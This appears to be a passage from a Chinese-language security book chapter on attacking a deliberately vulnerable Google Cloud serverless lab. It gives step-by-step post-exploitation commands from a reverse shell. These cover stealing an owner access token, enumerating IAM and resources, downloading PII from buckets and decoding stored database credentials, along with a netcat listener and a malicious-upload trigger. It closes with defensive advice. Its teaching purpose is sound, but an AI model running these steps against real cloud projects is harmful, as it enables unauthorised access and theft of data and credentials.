##### 20. 另一种生成访问令牌的方法是通过 `gcloud auth print-access-token` 命令。运行以下命令以检索访问令牌并将其存储在变量中以供以后使用：

```
ACCESS_TOKEN=$(gcloud auth print-access-token)
echo $ACCESS_TOKEN
```

#### Caution

切勿与任何人分享访问令牌。在有效期内，此令牌会授予对项目所有资源和权限的完全访问权限，因为关联的服务账号具有 `roles/owner` 角色。

此时，你拥有一个其权限由服务账号分配的特权决定的访问令牌。由于受损 Cloud Run 服务的服务账号具有 `roles/owner` 角色，你现在实际上拥有对项目的完全管理访问权限。

#### Exploring and Inspecting the Project Resources

现在你已经建立了反向 shell 会话，是时候使用在前一节中获得的访问令牌来探索和检查可访问的资源了。在本节中，你将枚举并检查无服务器实验室环境中的云资源，包括 Cloud Storage 存储桶、Pub/Sub 主题和 Parameter Store 参数，如 Figure 9-7 所示。



本节假定你是在反向 shell 会话中运行命令（在 `root@localhost:/app#` 之后）。如果反向 shell 会话意外终止，^16 只需按 Ctrl-C，通过 `nc -lvnp 4444`（在 VM 实例中）重新启动你的 Netcat 监听器，然后从单独的 Cloud Shell 终端标签页重新上传文件（使用构建的恶意文件名）以重新建立连接。

#### Note

如果你在从攻击者账号向指定的输入存储桶上传文件时遇到任何问题，你可能还需要通过运行 `gcloud auth login` 重新进行身份验证。

让我们继续从前一节中离开的地方，并检查与受损 Cloud Run 服务的服务账号关联的项目的资源：

##### 1. 检索可访问的 Google Cloud 项目的列表以及它们的 ID、名称和项目编号：

```
gcloud projects list
```

这会返回托管无服务器实验室环境的 Serverless Lab 账号中项目的 ID、名称和编号：

```
PROJECT_ID                  NAME                 PROJECT_NUMBER
*****                       *****                *****
```

##### 2. 将配置的 `gcloud` 项目 ID 存储到 `PROJECT_ID` 变量中：

```
PROJECT_ID=$(gcloud config get-value project)
```

##### 3. 通过运行以下命令检查你是否具有 `resourcemanager.projects.get` 和 `resourcemanager.projects.getIamPolicy` 权限：

```
ACCESS_TOKEN=$(gcloud auth print-access-token)

RM_URL_BASE="https://cloudresourcemanager.googleapis.com/v1"
RM_URL="$RM_URL_BASE/projects/$PROJECT_ID:testIamPermissions"

PERM1="resourcemanager.projects.get"
PERM2="resourcemanager.projects.getIamPolicy"

PERMISSIONS_JSON="{\"permissions\": [\"${PERM1}\", \"${PERM2}\"]}"

curl -s -X POST \
  -H "Authorization: Bearer $ACCESS_TOKEN" \
  -H "Content-Type: application/json" \
  -d "$PERMISSIONS_JSON" \
  "$RM_URL"
```

这会返回以下 JSON 输出：

```
{
  "permissions": [
    "resourcemanager.projects.get",
    "resourcemanager.projects.getIamPolicy"
  ]
}
```

由于两个权限均已授予，你可以运行 `gcloud projects get-iam-policy` 来检查项目的 IAM 策略。

##### 4. 查看分配给受损 Cloud Run 服务的服务账号的所有 IAM 角色：

```
MD_URL="http://169.254.169.254/computeMetadata/v1"
SERVICE_ACCOUNT_EMAIL=$(curl -s -H "Metadata-Flavor: Google" \
    "$MD_URL/instance/service-accounts/default/email")

gcloud projects get-iam-policy $PROJECT_ID \
  --flatten="bindings[].members" \
  --format='table(bindings.role)' \
  --filter="bindings.members:$SERVICE_ACCOUNT_EMAIL"
```

这会返回以下内容：

```
ROLE
roles/owner
```

##### 5. 列出当前在活动项目中启用的所有 Google Cloud 服务：

```
gcloud services list --enabled
```

这会返回以下 Google Cloud 服务列表：

```
NAME                                 TITLE
analyticshub.googleapis.com          Analytics Hub API
artifactregistry.googleapis.com      Artifact Registry API
bigquery.googleapis.com              BigQuery API
bigqueryconnection.googleapis.com    BigQuery Connection API

...
```

从这里，攻击者可以推断项目中启用的 Google Cloud 服务。 此信息使他们能够识别哪些服务具有可被针对或可能被利用的资源。

##### 6. 检索项目中所有资产的完整列表：

```
gcloud asset search-all-resources \
  --project=$PROJECT_ID \
  --format=json
```

如果出现以下确认提示，输入 `y` 并按 Enter 继续：

```
API [cloudasset.googleapis.com] not enabled on project [...]. Would you
 like to enable and retry (this will take a few minutes)? (y/N)?
```


这应该启用 Cloud Asset API（`cloudasset.googleapis.com`），自动重试你运行的 `gcloud asset search-all-resources` 命令，并返回项目中所有资产的完整 JSON 列表，包括服务、其位置、状态和父项目信息：

```
Enabling service [cloudasset.googleapis.com] on project [...]...
Operation "operations/..." finished successfully.
[
  ...
  {
    "assetType": "serviceusage.googleapis.com/Service",
    "displayName": "pubsub.googleapis.com",
    "location": "global",
    "name": "//.../services/pubsub.googleapis.com",
    ...
    "state": "ENABLED"
  },
  ...
]
```

##### 7. 再次运行之前的命令，但过滤输出以仅显示唯一的 `assetType` 值：

```
gcloud asset search-all-resources \
  --project="$PROJECT_ID" \
  --format="value(assetType)" | sort | uniq
```

这列出了项目中已创建或使用过的唯一 Google Cloud 资产类型：

```
artifactregistry.googleapis.com/DockerImage
artifactregistry.googleapis.com/Repository
cloudbilling.googleapis.com/ProjectBillingInfo
cloudresourcemanager.googleapis.com/Project
dataplex.googleapis.com/EntryGroup
eventarc.googleapis.com/Trigger
...
```

从这里，攻击者将更好地了解哪些服务具有活动或最近活动的资源。

##### 8. 让我们探索并检查 Pub/Sub 资源。列出当前项目中的所有 Pub/Sub 主题名称：

```
gcloud pubsub topics list --format="value(name)"
```

这返回 Pub/Sub 主题的名称，该主题的 Eventarc 触发器用于在 HTML 到 PDF 事件驱动工作流中调用 Cloud Run 服务：

```
projects/.../topics/eventarc-us-east1-gcs-trigger-...
```

运行以下命令以检索与 Pub/Sub 主题关联的订阅：

```
TOPIC_NAME=$(gcloud pubsub topics list --format="value(name)")
gcloud pubsub topics list-subscriptions $TOPIC_NAME

SUBSCRIPTION=$(gcloud pubsub topics list-subscriptions "$TOPIC_NAME" \
  --format="value(.)")

echo $SUBSCRIPTION
```

这返回 Pub/Sub 订阅的名称，该订阅的 Eventarc 触发器用于在 HTML 到 PDF 事件驱动工作流中调用 Cloud Run 服务：

```
projects/.../subscriptions/eventarc-us-east1-gcs-trigger-sub-...
```

检查指定 Pub/Sub 订阅的配置详情：

```
gcloud pubsub subscriptions describe $SUBSCRIPTION
```

这返回 Pub/Sub 订阅的完整配置详情：

```
...

name: projects/.../subscriptions/eventarc-us-east1-gcs-trigger-sub-...
pushConfig:
  oidcToken:
    audience: https://html-to-pdf-service-...-ue.a.run.app
    serviceAccountEmail: html-to-pdf@....iam.gserviceaccount.com
  pushEndpoint: https://html-to-pdf-service-....a.run.app?...

...

state: ACTIVE
topic: projects/.../topics/eventarc-us-east1-gcs-trigger-...
```

##### 9. 让我们也检查 Cloud Storage 资源以及存储在存储桶中的一些文件。列出项目中的所有 Cloud Storage 存储桶：

```
gcloud storage buckets list --format=json
```

这返回以下内容：

```
[
  ...
  {
    ...
    "storage_url": "gs://ss-another-bucket-.../",
    "uniform_bucket_level_access": false,
    "update_time": "..."
  },
  ...
]
```

列出所有 Cloud Storage 存储桶的名称：

```
gcloud storage buckets list --format="value(name)"
```

这返回以下内容：

```
...
ss-another-bucket-...
ss-input-bucket-...
ss-output-bucket-...
```

检索名称中包含 `another` 的特定存储桶的名称：

```
BUCKET_NAME=$(gcloud storage buckets list --format="value(name)" \
              | grep another)

echo $BUCKET_NAME
```

递归列出指定存储桶中的所有对象：

```
gsutil ls -r "gs://$BUCKET_NAME/**"
```

这返回以下内容：

```
gs://ss-another-bucket-.../cover-photo.png
gs://ss-another-bucket-.../data.csv
```

从指定的 Cloud Storage 存储桶下载 `data.csv` 文件：

```
gsutil cp gs://$BUCKET_NAME/data.csv .
```

显示下载的 CSV 文件的内容：

```
cat data.csv
```

这显示存储在 `data.csv` 文件中的示例记录：

```
First Name,Last Name,Birthdate,Sex,Email,...
Aiko,Tanaka,1991-04-23,Female,aiko.tanaka@example.jp,...
Liam,O'Rourke,1985-12-02,Male,liam.orourke@example.ie,...
Leila,Benali,1990-06-18,Female,leila.benali@example.ma,...
Sven,Larsson,1979-08-30,Male,sven.larsson@example.se,...
Anika,Mehra,1993-02-14,Female,anika.mehra@example.in,...
...
```

`data.csv` 文件充当包含个人身份信息的文件的占位符。在现实世界的入侵中，攻击者可以从云存储存储桶中窃取完整的数据库转储、系统日志或包含机密和凭证的配置文件。

##### 10. 让我们探索并检查 Parameter Manager 资源。从 Parameter Manager 检索参数的 JSON 格式列表：

```
gcloud parametermanager parameters list \
  --location=global \
  --format=json
```

这会产生以下输出：

```
[
  {
    "createTime": "...",
    "format": "YAML",
    "name": "projects/.../locations/global/parameters/param-000",
    "policyMember": {
      "iamPolicyUidPrincipal": "..."
    },
    "updateTime": "..."
  }
]
```

检索第一个（也是唯一一个）Parameter Manager 参数的名称并将其存储在 `PARAM_NAME` 变量中：

```
PARAM_NAME=$(gcloud parametermanager parameters list \
  --location=global \
  --limit=1 \
  --format="value(name)")

echo $PARAM_NAME
```

这会产生以下输出：

```
projects/.../locations/global/parameters/param-000
```

列出该参数的所有版本：

```
gcloud parametermanager parameters versions list \
  --location=global \
  --parameter=$PARAM_NAME \
  --format=json
```

这会输出以下内容：

```
[
  {
    "createTime": "2025-00-00T00:00:00.000000000Z",
    "name": "projects/.../.../global/parameters/param-000/versions/2",
    "updateTime": "2025-00-00T00:00:00.000000000Z"
  },
  {
    "createTime": "2025-00-00T00:00:00.000000000Z",
    "name": "projects/.../.../global/parameters/param-000/versions/1",
    "updateTime": "2025-00-00T00:00:00.000000000Z"
  }
]
```

打印参数的版本号：

```
mapfile -t VERSION_NAMES < <(gcloud parametermanager \
  parameters versions list \
  --location=global \
  --parameter="$PARAM_NAME" \
  --format="value(name)")

for VERSION in "${VERSION_NAMES[@]}"; do
    echo "$VERSION"
done
```

这会产生以下输出：

```
projects/.../locations/global/parameters/param-000/versions/2
projects/.../locations/global/parameters/param-000/versions/1
```

检索并解码指定 Parameter Manager 参数每个版本的 data 负载：

```
for VERSION in "${VERSION_NAMES[@]}"; do
    echo "=========="
    echo "$VERSION"
    echo "=========="
    PARAM_DATA=$(gcloud parametermanager parameters \
        versions describe $VERSION \
        --location=global \
        --format="value(payload.data)")

    echo $PARAM_DATA | base64 -d
    echo
    echo "----------"
    echo
done
```


这会给你以下输出：

```
...
=========
projects/.../locations/global/parameters/param-000/versions/1
=========

...

database:
  host: db.example.com
  port: 5432
  username: admin
  password: password12345
  options:
    pool_size: 10
    timeout: 30

...
```

由于其中一个版本的检索数据负载中包含数据库用户名和密码，攻击者可以连同相关的配置值一起窃取这些凭据，从而可能直接访问数据库。^17

从这里开始，如果被攻破的服务账号具有 `roles/owner` 角色，攻击者可以对项目的资源执行几乎任何操作。他们可以创建、修改或删除资源，部署新的计算服务，并利用它们来攻击其他应用程序和系统。他们还可以通过设置服务账号和其他配置为在无需攻击者重新利用原始漏洞的情况下重新建立访问权限的云资源来设置后门。

从防御安全角度来看，至关重要的是实施并强制执行最小权限原则，确保与云资源关联的服务账号仅具有执行其任务所需的确切权限。此外，您还应通过验证和清理所有用户输入来保护应用程序免受代码注入，并避免将用户提供的命令或事件数据作为 shell 命令执行（例如，使用 `subprocess` 并使用参数列表而不是 shell）。

#### Caution

不要急于清理你的资源，因为它们将在下一章的动手示例和模拟中用到。

## Summary

在本章中，你了解了攻击者如何通过利用事件驱动文件处理应用程序中的安全配置错误和代码注入漏洞来获得对资源的未经授权访问。在搭建了一个有意设计为易受攻击的无服务器实验室环境后，你模拟了攻击者通过恶意文件上传利用易受攻击的 Cloud Run 服务，并建立与攻击者机器的反向 shell 连接，以枚举并访问 Serverless Lab 账号中的其他云资源。

在下一章中，你将在此基础上继续学习，探索攻击者如何利用易受攻击的 Cloud Run 服务，绕过限制，并在不依赖反向 shell 的情况下设置后门。你还将通过滥用与无服务器计算资源关联的权限过高的服务账号来模拟在 Google Cloud 中的权限提升。

^1 你可以重用来自 第 8 章 的 Serverless Lab 和 Attacker Google Cloud 账号。

^2 如果出现 Cloud Shell Editor，请点击顶部菜单栏中的 Open Terminal 以访问命令行环境。

^3 如果你看到 `ERROR: (gcloud.services.enable) FAILED_PRECONDITION: Billing account for project is not found.`，请确保有一个活跃的计费账号已链接到项目，然后重试该命令。你可以通过在 Google Cloud 控制台中打开导航菜单（☰）并导航到 Billing 来链接计费账号。链接计费账号后，请务必在 Cloud Shell 终端中重新运行 `gcloud services enable` 命令。

^4 你可以从 Parameter Manager 参数中引用 Secret Manager 中存储的密钥，而不是将敏感凭据直接存储在参数值中。

^5 本章中的示例仅用于演示目的，说明攻击者如何窃取存在于旧参数版本中的凭据。

^6 参数名称遵循格式 `projects/PROJECT_ID/locations/LOCATION/parameters/PAR⁠AME⁠TER_ID`，其中 `PROJECT_ID` 是你的 Google Cloud 项目 ID，`LOCATION` 是区域或 global，`PARAMETER_ID` 是你在创建参数时分配的唯一标识符。

^7 然而，在实际部署中，输入存储桶有时会被配置为公开可访问（或因配置错误而无意中如此），这可能使其暴露于不受信任的上传，并增加被利用的风险。

^8 构建和推送镜像可能需要大约 10–15 分钟，因此在代码运行期间请随意喝杯咖啡或茶。

^9 在运行 `gcloud projects add-iam-policy-binding` 命令后，你可能会收到以下错误消息：`ERROR: Policy modification failed ... ERROR: (gcloud.projects.add-iam-policy-binding) INVALID_ARGUMENT: Service account service-...@gs-project-accounts.iam.gserviceaccount.com does not exist.` 

^10 如果遇到 `ERROR: (gcloud.eventarc.triggers.create) FAILED_PRECONDITION`，请等待几分钟后再尝试该命令。

^11 指定输出存储桶的名称以 `ss-output-bucket` 开头。

^12 涉及资源密集型任务的无服务器应用程序，例如 ML 模型训练或批量数据处理，通常配置有更长的超时设置。

^13 当你运行此命令时，预期会得到不同的 Base64 字符串，因为编码值将取决于 `$COMMAND` 变量，其中包含 VM 实例的保留外部静态 IP 地址。

^14 如果反向 shell 连接未建立，请通过确保在 VM 实例内部运行监听器（`nc -lvnp 4444`），然后再次上传带有恶意文件名的相同文件到指定的输入存储桶（`gsutil cp -- "$FILENAME" gs://$INPUT_BUCKET/`）来重试步骤。

^15 `CLOUD_RUN_TIMEOUT_SECONDS` 环境变量设置为 1,200 秒，相当于 20 分钟。

^16 反向 shell 终止的一个可能原因是被攻破的 Cloud Run 服务资源已超出指定的 20 分钟超时。

^17 如果数据库暴露在公共互联网上并且未安全地置于私有子网中，攻击者可以使用窃取的凭据直接连接到它。例如，如果数据库的安全组配置为允许来自 `0.0.0.0/0` 的连接，并且 VPC 设置允许从网络外部直接访问，则拥有有效凭据的攻击者可以从公共互联网连接到数据库。或者，攻击者可以在托管数据库的 VPC 的公共子网中启动一台 VM，并使用窃取的凭据连接到它。
